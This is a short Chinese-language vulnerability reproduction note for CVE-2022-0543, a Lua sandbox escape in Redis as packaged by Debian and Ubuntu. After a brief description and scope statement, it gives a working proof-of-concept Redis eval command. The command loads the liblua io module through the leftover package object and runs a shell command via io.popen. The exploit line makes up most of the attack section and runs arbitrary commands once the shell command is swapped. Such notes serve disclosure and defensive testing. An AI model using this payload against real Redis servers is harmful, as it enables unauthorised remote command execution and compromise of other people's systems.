

# Redis Lua 沙箱绕过 远程命令执行 CVE-2022-0543

## 漏洞描述

Redis是著名的开源Key-Value数据库，其具备在沙箱中执行Lua脚本的能力。

Debian以及Ubuntu发行版的源在打包Redis时，在Lua沙箱中遗留了一个对象package，攻击者可以利用这个对象提供的方法加载动态链接库liblua里的函数，进而逃逸沙箱执行任意命令。

## 漏洞影响

```
只限于Debian和Debian派生的Linux发行版（如Ubuntu）上的Redis服务
```

## 漏洞复现

远程连接Redis, 执行POC

```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("whoami", "r"); local res = f:read("*a"); f:close(); return res' 0
```

